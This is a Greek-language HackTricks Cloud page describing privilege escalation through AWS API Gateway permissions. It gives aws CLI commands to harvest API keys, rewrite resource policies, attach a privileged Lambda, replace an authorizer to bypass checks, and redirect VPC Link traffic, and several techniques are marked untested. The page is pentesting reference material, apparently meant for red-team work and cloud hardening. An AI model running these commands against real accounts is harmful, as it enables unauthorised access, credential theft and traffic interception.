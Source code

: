 # AWS - Ανύψωση προνομίων Apigateway

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks στο AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Apigateway

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Με αυτήν την άδεια μπορείτε να δημιουργήσετε κλειδιά API για τις διαμορφωμένες APIs (ανά περιοχή).
```bash
aws --region <region> apigateway create-api-key
```
**Πιθανή Επίδραση:** Δεν μπορείτε να πραγματοποιήσετε προνόμια αυξημένων δικαιωμάτων με αυτήν την τεχνική, αλλά ενδέχεται να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:GET`

Με αυτήν την άδεια μπορείτε να λάβετε τα δημιουργημένα κλειδιά API των παραμετροποιημένων API (ανά περιοχή).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Πιθανή Επίδραση:** Δεν μπορείτε να πραγματοποιήσετε προνόμια προνομιούχου με αυτήν την τεχνική, αλλά ενδέχεται να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Με αυτές τις άδειες είναι δυνατή η τροποποίηση της πολιτικής πόρων ενός API για να δώσετε στον εαυτό σας πρόσβαση για να το καλέσετε και να καταχραστείτε την πιθανή πρόσβαση που μπορεί να έχει το API gateway (όπως η εκκίνηση ενός ευάλωτου λάμδα).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Πιθανή Επίπτωση:** Συνήθως, δεν θα μπορέσετε να κάνετε άμεση αύξηση προνομίων με αυτήν την τεχνική, αλλά ενδέχεται να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τα δικαιώματα `apigateway:PutIntegration`, `apigateway:CreateDeployment` και `iam:PassRole` μπορεί **να προσθέσει μια νέα ενσωμάτωση σε ένα υπάρχον API Gateway REST API με μια συνάρτηση Lambda που έχει συνδεδεμένο ένα ρόλο IAM**. Ο επιτιθέμενος μπορεί στη συνέχεια **να ενεργοποιήσει τη συνάρτηση Lambda για να εκτελέσει αυθαίρετο κώδικα και ενδεχομένως να αποκτήσει πρόσβαση στους πόρους που σχετίζονται με τον ρόλο IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανή Επίπτωση**: Πρόσβαση σε πόρους που σχετίζονται με τον ρόλο IAM της Lambda λειτουργίας.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateAuthorizer` και `apigateway:CreateDeployment` μπορεί να **τροποποιήσει έναν υπάρχοντα ελεγκτή του API Gateway** για να παρακάμψει τους ελέγχους ασφαλείας ή να εκτελέσει αυθαίρετο κώδικα όταν γίνονται αιτήσεις στο API. 

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανή Επίπτωση**: Παράκαμψη ελέγχων ασφαλείας, μη εξουσιοδοτημένη πρόσβαση σε πόρους του API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με την άδεια `apigateway:UpdateVpcLink` μπορεί **να τροποποιήσει ένα υπάρχον VPC Link για να δείχνει σε ένα διαφορετικό Network Load Balancer, πιθανώς ανακατευθύνοντας την κυκλοφορία του ιδιωτικού API σε μη εξουσιοδοτημένους ή κακόβουλους πόρους**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Πιθανή Επίπτωση**: Μη εξουσιοδοτημένη πρόσβαση σε ιδιωτικούς πόρους του API, παρεμπόδιση ή διακοπή της κίνησης του API.

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
